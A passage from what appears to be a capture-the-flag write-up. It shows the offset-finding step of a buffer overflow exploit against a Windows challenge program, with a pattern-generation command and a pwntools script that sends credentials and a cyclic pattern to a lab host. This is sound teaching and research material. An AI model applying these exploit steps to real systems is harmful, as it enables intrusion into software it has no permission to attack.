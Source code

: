 

### Local Exploit

#### Find Offset

The first thing I need is the offset from my input to the return pointer
that will overwrite EIP. I'll start `MyFirstApp.exe` running in my
Windows VM with x32dbg attached. I'll generate a pattern buffer with
`pattern_create.rb`:



    oxdf@hacky$ pattern_create.rb -l 200
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag



That goes into a simple Python script that will connect, give the
correct username/passwords, and send the pattern into the overflow:



    #!/usr/bin/env python3

    from pwn import *


    r = remote("10.1.1.163", args['PORT'])

    payload = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"

    r.recvuntil("Username: ")
    r.sendline(b"alfiansyah")
    r.recvuntil("Password: ")
    r.sendline(b"K3r4j@@nM4j@pAh!T")
    r.recvuntil("FullName: ")
    r.sendline(b"0xdf")
    r.recvuntil("Input Your Code: ")
    r.sendline(payload)
    r.interactive()



pwntools lets you pass in args using all caps words at the end of the
command line, and since the port on my local instance will change, I'll
use that here. I can run this as `python3 sploit.py PORT=9094`.

When I run that, it crashes the program in x32dbg, and I'll note EIP:
